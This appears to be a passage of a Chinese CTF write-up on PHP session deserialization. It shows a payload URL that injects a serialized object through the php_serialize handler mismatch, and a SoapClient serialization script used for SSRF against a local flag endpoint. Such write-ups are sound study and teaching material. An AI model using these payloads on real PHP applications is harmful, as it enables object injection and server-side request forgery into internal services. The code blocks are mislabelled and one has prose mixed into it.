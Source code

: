 接着建立个接受session的文件get.php：

```javascript
<?php
ini_set('session.serialize_handler', 'php_serialize');
session_start();
$_SESSION["spoock"]=$_GET["a"];
我们在get.php中输入
http://localhost/get.php?a=|O:4:"test":1:{s:2:"hi";s:3:"sad";};}
```

然后我们再去访问solve.php,会发现原先test类中的$hi="happy"被替换成了sad，类比这种情况我们就可以进行，session的反序列化攻击了。

![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/CTF/CTFwriteup/buuctf练习笔记/images/2FA16B1B82E64774BED4FC7B7AA2D050myuDt4N3kBj.webp)

happy->sad

接下来就是SSRF了，这里写一写我看过的很好的文章吧

N1CTF Easy&&Hard Php Writeup

反序列化之PHP原生类的利用

由于涉及的东西太多，和水平有限，所有不误人子弟了，各位师傅自己去看。

这里直接利用一下smi1e师傅写的代码

```javascript
<?php
$url = "http://127.0.0.1/flag.php";
$b = new SoapClient(null, array('uri' => $url, 'location' => $url));
$a = serialize($b);
$a = str_replace('^^', "\r\n", $a);
echo "|" . urlencode($a);
?>
```

接下来分两步走，先利用session反序列化，来把我们的SSRF内容写入session文件中。

![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/CTF/CTFwriteup/buuctf练习笔记/images/15A9E57C3AA94BCB9B7819E1067666DERMZ9s7VhlFN.webp)
